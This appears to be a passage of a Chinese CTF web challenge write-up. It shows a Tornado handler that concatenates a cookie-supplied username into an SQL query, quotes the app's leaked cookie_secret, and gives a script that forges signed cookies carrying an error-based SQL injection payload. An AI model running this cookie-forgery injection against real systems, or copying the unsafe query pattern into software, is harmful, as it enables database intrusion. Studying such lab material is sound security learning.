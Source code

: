 但是可惜的是，这里不是最佳注入点。

继续寻找，发现了`lock.py`函数赤果果的使用了cookie值：

```python
# lock.py
class LockHandler(tornado.web.RequestHandler):
 def get(self):
  self.set_secure_cookie("lock",'1')
  self.render("lock.html")

 def post(self):
  username = self.get_secure_cookie("username") or ''
  passwd = md5(self.get_argument('password', ''))
  row = db.ct("manager", "*", "username='" + username + "' and password='" + passwd + "'")
  if row:
   self.set_secure_cookie("lock", "0")
   self.redirect("http://" + URL)
  else:
   self.redirect("http://" + URL + "/lock")
```

**这里直接执行db.ct，其中通过`get_secure_cookie("username")`获取到的`username`直接拼接，`password`是先做了md5后再拼接，并没有进行sql注入的防护。**

但是`username`则是通过`self.set_secure_cookie("username", row['username'])`则进行了cookie加密。

突然意识到，这时50分的题目？？是我太小看CTF的web方向了？？

通过查阅`set_secure_cookie`的代码，并进行rtiny的代码审计，在主目录的`index.py`中找到了密钥：

```"cookie_secret": "M0ehO260Qm2dD/MQFYfczYpUbJoyrkp6qYoI2hRw2jc=",```

于是，**直接利用该函数和密钥值，构造加密的sql注入**：

```python
import tornado.web
import tornado.ioloop

settings = {
 # "static_path": os.path.join(os.path.dirname(__file__), "themes/static"),
 # "template_path": os.path.join(os.path.dirname(__file__), "themes"),
 "cookie_secret": "M0ehO260Qm2dD/MQFYfczYpUbJoyrkp6qYoI2hRw2jc=",
 # "login_url": "/login",
}
        
class LoginHandler(tornado.web.RequestHandler):
    def get(self):
        self.set_secure_cookie("username", value="' and extractvalue(1,concat(0x5c,(select version()))) -- ")
        usr = self.get_secure_cookie("username")
        self.write(usr)

application = tornado.web.Application([
 (r"/login", LoginHandler),], **settings)

if __name__ == "__main__":
 application.listen('8888', '127.0.0.1')
 tornado.ioloop.IOLoop.instance().start()
```
